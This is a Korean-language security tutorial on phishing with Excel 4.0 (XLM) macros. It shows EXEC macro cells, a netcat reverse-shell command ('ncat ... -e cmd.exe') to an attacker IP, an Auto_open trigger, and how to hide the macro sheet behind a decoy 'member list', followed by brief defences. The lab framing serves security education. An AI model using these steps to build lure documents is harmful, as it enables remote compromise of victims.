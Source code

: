 # XLM Excel 4.0 매크로

XLM (Excel 4.0) 매크로를 사용한 피싱 탬플랫 기법은 매우 전통적이고 유래가 깊은(?) 공격 탬플릿  기법이다. 이 기법을 사용한 공격은 주로 악성코드를 포함한 문서 파일을 이메일 첨부파일이나 링크를 통해 유포하는 사이버 범죄자나 해커들이 초기 침투 방식으로 사용하는 탬플릿 중 하나이기도 하다.

다행스럽게도, 최근 버전의 Microsoft Office에서는 VBA 매크로 실행을 디폴트로 비활성화하게 되어있고, XLM (Excel 4.0) 매크로를 사용한 공격 기법은 1990년대에 개발된 굉장히 오래된 기술이며 안 기술의 발전으로 인해 많이 찾지 않는 공격 기법이다. 따라서, 최근에는 XLM 매크로를 사용하는 공격이 VBA 매크로를 사용하는 공격보다는 정식 파일에 chm,lnk,hta등을 심어 사용하는 기법이 주로 쓰인다.

하지만 혹시라도 매크로 공격에 취약한 Excel 4.0과 5.0버전을 아직까지도 쓴다거나 블랙 해커가가 화려한언변과 소셜 엔지니어링을 통해 타겟 유저가 스스로 매크로 활성을 하게 유도한다면 매크로 공격은 쉽고도 정확한 공격 기법이 될수 있다.

## 실습

실습을 위해 File -> Info -> Macro Settings -> Enable VBA Macros...를 선택해 매크로를 활성화해준다.

![](<../../obsidian\_resources/Pasted image 20230502195135.png>)

아래 시트에서 우클릭 -> Insert (추가) -> MS Excel 4.0 Macro -> OK를 해준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502193306.png" alt=""><figcaption></figcaption></figure>

간단한 테스트를 위해 아래 같이 각 열에 입력하여 계산기 (calc.exe)와 함께 "HELLO WORLD" 구문이 열리는지 확인해본다.

```
=EXEC("calc.exe")
=ALERT("HELLO WORLD!")
=HALT()
```

성공했다! 이제 우리는 EXCEL의 매크로를 통해 커맨드 EXEC로 앱 실행이 가능하다는 것을 알았다!&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502193523.png" alt=""><figcaption></figcaption></figure>

### 실전 예제

실전 예제를 들어보자.

이제 공격자는 타겟이 사용하는 EXCEL 매크로 기능을 통해 로컬 바이너리를 실행할 수 있다라는 사실을 알았다.

그렇다면 공격자는 간단한 netcat 리버스 쉘을 실행하는 백도어를 매크로에 심어 타겟이 공격자에 연결되게끔 할수 있다는 말이다!

shell.cmd 에 \`ncat 192.168.137.131 443 -e cmd.exe 를 저장한다. 공격자에 포트 443로 연결을 시도한다라는 뜻이다.

아래와 같이 shell.cmd를 실행하는 매크로를 생성하고 A1을 Auto\_open으로 바꿔주면 파일이 열림과 동시에 매크로가가 자동으로 실행될게 해줄수 있다.

```
=EXEC("C:\Temp\shell.cmd")
=ALERT("GROOT!")
=HALT()
```

![](<../../obsidian\_resources/Pasted image 20230502195827.png>)

일단 매크로 구문이 들어있는 EXCEL 파일은 누가봐도 수상하기 때문에 Hide (숨기기)를 해주고 정상 파일로 보이게 "회원 명단"과 같은 내용을 넣어준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502195849.png" alt=""><figcaption></figcaption></figure>

타겟 유저가 보는 EXCEL 파일에는 매크로 탭은 보이지 않고 "회원 명단"만 보이게 되어 의심을 피할 수 있다.

<figure><img src="../../obsidian_resources/Pasted image 20230504185904.png" alt=""><figcaption></figcaption></figure>

이제 타겟이 EXCEL 파일을 여는 순간 아래와 같이 공격자의 포트 443으로 리버스 쉘이 연결된 것을 알 수 있다!&#x20;

<figure><img src="../../obsidian_resources/화면 캡처 2023-05-02 200259.png" alt=""><figcaption></figcaption></figure>

## 대응방안

XLM (Excel 4.0) 매크로를 사용한 공격 기법에 대응하기 위한 방안은 매크로 공격에 취약한 Excel을 최신 버전으로 패치하는거다. 또한 대부분의 안티바이러스 및 방화벽과 같은 보안 솔루션을 XLM 매크로 실행을 탐지하고 차단할 수 있으니 너무 걱정은 하지 않다도 되지만 그래도

마지막으로, 너무나도 당연하지만 수상한 이메일 첨부 파일이나 다운로드 링크를 클릭하지 않아야 한다. 만약에 매크로를 활성화해야 한다는 IT부서의 권고 이메일을 받게 되면 진짜 IT부서가 맞는지 의심하고 또 의심하길 바란다.

## 레퍼런스

{% embed url="https://en.wikipedia.org/wiki/Microsoft_Excel" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0" %}

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf" %}

